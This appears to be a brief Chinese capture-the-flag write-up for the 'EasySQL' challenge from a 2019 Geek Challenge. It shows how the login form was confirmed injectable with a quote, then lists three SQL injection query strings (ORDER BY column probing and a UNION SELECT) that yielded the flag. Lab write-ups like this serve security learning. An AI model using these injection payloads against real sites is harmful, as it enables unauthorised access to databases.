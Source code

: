 ## [极客大挑战 2019]EasySQL

![image-20240815100640223](https://gitee.com/bx33661/image/raw/master/path/image-20240815100640223.png)

由于根据题目名称可以知道，是sql注入题，我们这里尝试使用`1'`测试回显情况，发现可以注入

1. `?username=1&password=1' order by 6%23`
2. `?username=1&password=1' order by 3%23`
3. `?username=1&password=1' union select 1,2,3%23`

最后得到--==flag==

![image-20240815101232079](https://gitee.com/bx33661/image/raw/master/path/image-20240815101232079.png)